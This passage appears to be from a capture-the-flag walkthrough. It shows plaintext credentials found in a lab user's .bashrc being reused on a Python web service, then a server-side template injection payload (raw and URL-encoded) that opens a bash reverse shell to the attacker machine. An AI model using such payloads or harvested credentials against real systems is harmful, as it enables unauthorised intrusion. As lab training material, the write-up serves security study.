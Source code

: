     if [ -f ~/.bash_aliases ]; then
        . ~/.bash_aliases
    fi

    # enable programmable completion features (you don't need to enable
    # this, if it's already enabled in /etc/bash.bashrc and /etc/profile
    # sources /etc/bash.bashrc).
    if ! shopt -oq posix; then
      if [ -f /usr/share/bash-completion/bash_completion ]; then
        . /usr/share/bash-completion/bash_completion
      elif [ -f /etc/bash_completion ]; then
        . /etc/bash_completion
      fi
    fi

    #Setting Password for running python app
    username="admin"
    password="Saket!#$%@!!"

Looking at the bottom of the file we have the credentials for a user.

    #Setting Password for running python app
    username="admin"
    password="Saket!#$%@!!"

Trying the credentials on the service running on port 9999 didn't work, but changing the username to ***"saket"*** works.

![image](https://user-images.githubusercontent.com/76552238/200188463-6eed3b40-25a2-4a92-a23b-5a8619283b4b.png)

The web server asks for our name, let's try adding a parameter named ***"name"*** to the url.

***http://10.0.0.58:9999?name=something:***

![image](https://user-images.githubusercontent.com/76552238/200188543-8ba9ef96-8f3e-48e4-bdbb-66514595b33e.png)

We found a working parameter. According to our NMAP scan at the start we know that the server on port 9999 is being run by a Python app.  
We can exploit the server for SSTI. 

    Payload:

    {% import os %}{{ os.system("bash -c 'bash -i >& /dev/tcp/10.0.0.44/4444 0>&1'") }}

    URL encoded Payload:

    %7B%25%20import%20os%20%25%7D%7B%7B%20os.system(%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.0.44%2F4444%200%3E%261%27%22)%20%7D%7D%0A

Going to ***"http://10.0.0.58:9999/?name=%7B%25%20import%20os%20%25%7D%7B%7B%20os.system(%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.0.44%2F4444%200%3E%261%27%22)%20%7D%7D%0A"***, we get a reverse shell on the remote server as the user ***"saket"***.


[1]: "https://portswigger.net/web-security/xxe"
[2]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/XXE%20PHP%20Wrapper.xml"
[3]: "https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS"
[4]: "https://www.youtube.com/watch?v=dQw4w9WgXcQ"
[5]: "https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc"
